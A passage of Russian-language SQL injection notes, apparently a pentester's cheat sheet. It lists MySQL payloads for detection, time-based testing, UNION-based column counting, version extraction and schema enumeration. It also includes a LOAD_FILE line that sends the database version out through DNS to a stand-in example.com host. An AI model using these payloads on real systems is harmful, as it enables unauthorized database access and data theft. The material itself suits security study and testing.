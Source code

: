 - Пример для подзапроса:    
```
?id=(SELECT table_name FROM information_schema.tables LIMIT 1) -- 
```
Если запрос возвращает имя таблицы, это подтверждает уязвимость.

# 2. Исследование базы данных при атаках с использованием SQL-инъекций

- #### [[Примеры SQL-запросов, подверженных инъекциям, в различном контексте]]

- #### [[Примеры SQL-запросов, подверженных инъекциям, в различных операторах]]

## MySQL

Обнаружить можно как я уже выше писал различными способами в зависимости от контекста.
```
'

"

1 OR 1=1 -- 

(1+1) 

' SELECT SLEEP(10) -- 

' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT @@version), '.example.com\\test')) -- #
```

### Видимая атака

#### 1. Этап определяем количество столбцов при объединение запроса

- **Определение количества столбцов**
```
' UNION SELECT NULL,NULL,NULL-- 

' UNION SELECT 'a',NULL,NULL,NULL-- # определяем какая строка может выдать полезную нагрузку
```

#### 2. Этап определяем версию 

- **Получение версии:**
```
' UNION SELECT NULL, @@version --
```

#### 3. Этап определяем таблицы

- **Вывод всех таблиц**
```
' UNION SELECT * FROM information_schema.tables # вывод всех таблиц

' SELECT * FROM information_schema.columns WHERE table_name = 'Users' # вывод всех столбцов а таблице Users
```
